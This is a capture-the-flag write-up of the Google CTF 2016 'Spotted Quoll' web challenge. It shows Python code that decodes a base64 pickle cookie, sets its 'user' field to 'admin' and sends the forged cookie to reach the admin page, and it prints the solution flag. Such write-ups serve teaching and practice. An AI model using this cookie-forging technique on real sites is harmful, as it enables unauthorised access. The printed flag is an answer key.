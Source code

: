```yaml
---
layout: post
title: "Google CTF 2016 : Spotted Quoll"
date: 2016-05-01 16:25:06 -0700
comments: true
author: aagallag
slug: spotted-quoll
category:
- 2016
- googlectf
---
```


**Category:** Web
**Points:** 50
**Solves:** 413
**Description:**

> [This](https://spotted-quoll.ctfcompetition.com/) blog on Zombie research looks like it might be interesting - can you break into the /admin section?


# Investigate
I start by enabling developer toolbar on Google Chrome and start capturing the network traffic.

I notice an 'Admin' button at the top of the page.  When I click on it, I just get redirected to the homepage and notice my URL bar updates as followed:

```
https://spotted-quoll.ctfcompetition.com/#err=user_not_found
```

However, I notice my browser downloaded a cookie at some point.

It looks like the cookie was retrieved from a 'GET' request at '/getCookie'.  This information will be useful when implemeting the script later.

```
Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
```

I have heard of 'pickle' before.  It's a format for serializing data, usually over a network.  Very similar to JSON.  I tried loading the above data directly into pickle.  But unfortunately, it threw an exception.

However, the pickle could be simply encoded in another format, perhaps base64....

```
>>> from base64 import b64decode
>>> b64decode('KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu')
"(dp1\nS'python'\np2\nS'pickles'\np3\nsS'subtle'\np4\nS'hint'\np5\nsS'user'\np6\nNs."
```

Ok, that looks a lot more like pickle data to me, let's load it up in Python.

# Code

Load the pickle data

```python
#Decode the base64 pickle
pickb64 = cookie['obsoletePickle']
pick = b64decode(pickb64)

#Write the pickle to a tmp file
tmpf = 'tmp.p'
f = open(tmpf, 'wb')
f.write(pick)
f.close()

#load the pickle
obsoletePickle = pickle.load(open('tmp.p', 'rb'))
print('%s' % str(obsoletePickle))
```

Print the pickle data

```
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

# Exploit
From the formatted pickle data, it should be pretty clear what's going on.  The 'user' field is set to None.  This is because we are not logged in.  I think we can trick the webiste!  Why don't we login as the admin by setting our 'user' attribute to 'admin'.

Modify the pickle data so that it reads...

```
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}
```

Modify pickle data and dump back to raw data

```python
obsoletePickle['user'] = 'admin'

#Write to spoofed pickle to a new file
pickle.dump(obsoletePickle, open('spoofed.p', 'wb'))
spooff = 'spoofed.p'

#Read back as plain data
f = open(spooff, 'rb')
pick = f.read()
f.close()
```

Create the new cookie (encoded in base64)

```python
spoofed_cookie = dict(obsoletePickle=b64encode(pick))
```

Perform the attack to login to the admin page 'admin'

```
r = requests.get(URL + 'admin', verify=False, cookies=spoofed_cookie)
print(r.text)
```

# Script Output
```

HTML:
<html>
<head>
  <link href="/static/bootstrap.min.css" rel="stylesheet">
  <link href="/static/jumbotron-narrow.css" rel="stylesheet">
</head>
<body>

    <div class="container">
      <div class="header clearfix">
        <nav>
          <ul class="nav nav-pills pull-right">
            <li role="presentation" class="active"><a href="#">./boringblog</a></li>
            <li role="presentation"><a href="/admin">Admin</a></li>
          </ul>
        </nav>
        <h3 class="text-muted">yawn</h3>
      </div>

      <div class="jumbotron">
        <h1>My Zombie Research Project</h1>
        <p class="lead">./boringblog</p>
      </div>

      <div class="row marketing">
        <div class="col-lg-12">
          <h3>Blog Development - 20th January, 2016</h3>
          <p>I don't have much content yet, except for my admin page. Stay tuned for more information</p>
        </div>
      </div>
      <iframe style="border: 0;" src="/getCookie"></iframe>
    </div> <!-- /container -->

</body>
</html>

Cookies:
<RequestsCookieJar[<Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu for spotted-quoll.ctfcompetition.com/>]>

Real Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': None}

Spoofed Admin Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?

```


Flag

```
CTF{but_wait,theres_more.if_you_call}
```

[Python script](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/SpottedQuoll/pwn.py)
